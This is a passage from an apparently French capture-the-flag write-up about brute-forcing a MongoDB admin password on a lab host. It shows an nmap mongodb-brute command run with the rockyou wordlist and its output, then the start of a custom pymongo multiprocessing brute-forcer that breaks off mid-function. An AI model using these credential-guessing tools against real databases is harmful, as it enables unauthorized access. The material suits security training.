 S'agissant vraisemblablement d'une histoire de permission on va brute-forcer le password pour la base *admin* qui sert habituellement à l'authentification (avec le nom d'utilisateur *admin*).  

Nmap devrait faire l'affaire pour cela :  

```plain
$ nmap -p 27018 10.1.1.21 --script +mongodb-brute --script-args userdb=users.txt,passdb=/usr/share/wordlists/rockyou.txt
Starting Nmap 7.70 ( https://nmap.org )
Nmap scan report for 10.1.1.21
Host is up (0.045s latency).

PORT      STATE SERVICE
27018/tcp open  mongod
| mongodb-brute:
|   Accounts: No valid accounts found
|_  Statistics: Performed 21756 guesses in 888 seconds, average tps: 24.2

Nmap done: 1 IP address (1 host up) scanned in 924.78 seconds
```

Notez bien le signe *+* devant le nom du plugin *mongodb-brute* qui permet à Nmap de forcer l'utilisation du module sur un port non standard.  

Nmap aurait du faire l'affaire... mais ce n'est pas le cas. Une discussion avec *decart* (un autre participant) a confirmé que le password valide était bien dans cette wordlist. Il est même dans le top 500 des pires mots de passe. Bref Nmap merdouille :(   

On m'a conseillé un autre outil écrit en Go baptisé [go-mbf](https://github.com/c0nrad/go-mbf). Seulement... pas mieux.  

Papayaa
-------

Il est temps de se remonter les manches et d'écrire son propre outil de brute-force Mongo avec une librairie dont je suis sûr qu'elle fonctionne :  

```python
import sys
from multiprocessing import Process, Queue, Event
from queue import Empty

from pymongo import MongoClient
from pymongo.errors import OperationFailure

TARGET = "10.1.1.21"
PORT =  27018
USERNAME = "admin"
DATABASE = "admin"
PROCESS_COUNT = 4

def test_password(input_queue, stop_event, success_event, name):
    while True:
        try:
            password = input_queue.get(timeout=2)
        except Empty:
            if stop_event.is_set():
                print("Process {} is leaving (no more tasks)".format(name))
                break
        else:
            try:
                client = MongoClient(
                        TARGET,
                        username=USERNAME,
                        password=password,
                        authSource=DATABASE,
                        port=PORT
                )
```